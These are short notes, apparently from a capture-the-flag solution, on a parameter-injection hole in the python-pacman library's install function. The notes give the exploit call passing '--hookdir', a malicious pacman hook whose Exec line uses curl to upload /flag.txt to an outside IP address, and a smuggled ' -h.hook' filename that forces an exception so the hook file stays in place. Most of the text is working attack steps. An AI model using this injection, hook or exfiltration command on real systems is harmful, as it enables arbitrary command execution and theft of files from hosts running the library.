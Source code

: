 0day in python-pacman (allows parameter injection)

- exploit code is: pacman.install(["--hookdir", "/tmp/pacman/", "wget"])
- we can use json to put a list into the install function instead of a string (string is not vuln)
- Hook looks like this

[Trigger]
Operation = Upgrade
Operation = Install
Operation = Remove
Type = Package
Target = *

[Action]
Description = Cleaning pacman cache...
When = PostTransaction
Exec = /bin/bash -c "curl --upload-file /flag.txt http://192.168.178.200:4444"

- we need to write a file to the directory
- we need to throw an exception in check_output so that the remove() does not get called
- therefore we use ' -h.hook' as filename (calls --help and returns 2)
- hook files must end with .hook. The hook will only be executed if something will be installed (check if it's not already installed!)


